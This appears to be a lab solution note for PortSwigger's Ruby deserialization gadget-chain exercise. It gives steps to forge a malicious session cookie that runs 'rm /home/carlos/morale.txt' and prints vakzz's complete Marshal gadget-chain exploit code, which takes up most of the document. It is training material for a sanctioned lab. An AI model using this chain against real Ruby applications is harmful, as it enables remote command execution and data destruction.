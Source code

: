 ```ad-done
```

# Exploiting Ruby deserialization using a documented gadget chain
Reference: https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain

```ad-done
title: Solution
1. Log in to your own account and notice that the session cookie contains a serialized ("marshaled") Ruby object. Send a request containing this session cookie to Burp Repeater.
2. Browse the web to find the `Universal Deserialisation Gadget for Ruby 2.x-3.x` by `vakzz` on `devcraft.io`. Copy the final script for generating the payload.
3. Modify the script as follows:
    - Change the command that should be executed from `id` to `rm /home/carlos/morale.txt`.
    - Replace the final two lines with `puts Base64.encode64(payload)`. This ensures that the payload is output in the correct format for you to use for the lab.
4. Run the script and copy the resulting Base64-encoded object.
5. In Burp Repeater, replace your session cookie with the malicious one that you just created, then URL encode it.
6. Send the request to solve the lab.
```

```ad-example
Above mentioned exploit written in ruby:
~~~ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
```